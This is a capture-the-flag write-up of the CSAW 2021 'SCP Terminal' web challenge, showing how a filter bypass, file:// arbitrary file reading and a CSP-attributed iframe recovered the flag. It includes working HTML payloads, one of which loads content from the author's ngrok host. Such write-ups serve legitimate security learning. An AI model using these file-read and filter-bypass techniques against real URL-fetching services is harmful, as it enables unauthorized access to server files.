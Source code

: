```text
Every since you started working this administrative government job, things have gotten strange. It's not just because your day is spent cataloging an archive of anomalous objects. In your dreams you see a burning number: 31337 Maybe this terminal can help uncover the meaning of these dreams.
```

![](/csaw-quals-2021/scp_terminal_landing.png)

The Explore Archive button opens up a random SCP-wiki page and the Contain SCP button will open up the provided URL on the server and show a screenshot. It'll only work if the URL contains "scp-" so I added "?test=scp-wiki" to the end of the URL to bypass the check. 

# Enumeration

Using the URL "view-source:file:///server?test=scp-wiki" prints a list of all the server files. I used view-source because it wasn't rendering the file listing directly for some reason. 

![](/csaw-quals-2021/scp_terminal_serverdir.png)

There are a few interesting files there; but let's look at server.py first.

![](/csaw-quals-2021/scp_terminal_serverpy.png)

Hey, we have arbitrary file read; What if I just view the flag template? 

![](/csaw-quals-2021/scp_terminal_scp31337.png)

Ahahaha I should've expected that. The next thing I tried was viewing the source, but the viewport wasn't big enough to see the flag. I was stuck on this stage for a while until I found some functionality which let me upload a file to the server by viewing a page like this. 

```html
<html>
<head>
</head>
<body>
<div class="scp-image-block">
	<img  src="http://822f-128-194-3-233.ngrok.io/exploit.html">
</div>
</body>
</html>
```

![](/csaw-quals-2021/scp_terminal_contain.png)

The server won't serve contained non-image files but it doesn't matter all that much because we have arbitrary file read by way of file://. I actually wrote a payload that worked in my testing, was really excited to test on the server only to find it didn't work -- Firefox considers file <-> file to be the same origin but Chrome does not so I couldn't access the contents of the iframe. I read the documentation on iframes and found the csp attribute; which lets me control the content security policy of the child page. The flag was in the viewport of scp_31337.html, just obfuscated by css. I wrote a quick HTML to iframe the file with CSS disabled and then got the flag. 

```html
<html>
<head>
</head>
<body>
<iframe id="frame" src="file:///server/templates/scp-31337.html"
            title="iframe Example 1" width="720" height="400" csp="style-src none">
</iframe>
</body>
</html>
```
![](/csaw-quals-2021/scp_terminal_flag.png)